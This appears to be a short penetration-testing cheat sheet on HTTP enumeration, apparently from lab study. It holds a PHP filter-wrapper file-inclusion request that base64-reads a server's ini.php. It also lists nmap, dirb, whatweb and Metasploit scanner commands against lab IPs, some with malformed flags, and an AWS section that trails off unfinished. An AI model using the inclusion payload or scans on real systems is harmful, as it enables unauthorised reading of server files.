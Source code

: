 # HTTP

`GET /browse.php?file=php://filter/convert.base64-encode/resource=ini.php`

- Enum
    
    ```bash
    whatweb 10.0.29.163
    
    http 10.0.29.163
    
    dirb http://10.0.29.163
    
    nmap --script http-enum -sV -p 80 10.0.28.146 --directoties
    
    nmap --script http-headers -sV -p 80 10.0.28.146 --IIS Server,ASP.NET,XSS Protection version
    
    nmap --script http-methods --script-args http-methods.url-path=/webdav/
    10.0.28.146
    
    nmap --script http-webdav-scan --script-args http-methods.url-path=/webdav/
    10.0.28.146
    
    nmap -sV -script banner 192.30.247.3
    
    Metasploit
    msfconsole
    use auxiliary/scanner/http/http_version
    set RHOSTS 192.30.247.3
    exploit
    
    use auxiliary/scanner/http/brute_dirs
    set RHOSTS 192.30.247.3
    exploit
    
    use auxiliary/scanner/http/robots_txt
    set RHOSTS 192.30.247.3
    run
    
    curl http://192.30.247.3/
    
    wget “http://192.30.247.3/index”
    
    browsh --startup-url 192.30.247.3
    
    lynx http://192.30.247.3
    
    dirb http://192.30.247.3
    /usr/share/metasploit-framework/data/wordlists/directory.txt
    
    ```
    
- AWS
    
    Enum
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled.png)
    
    O site 
    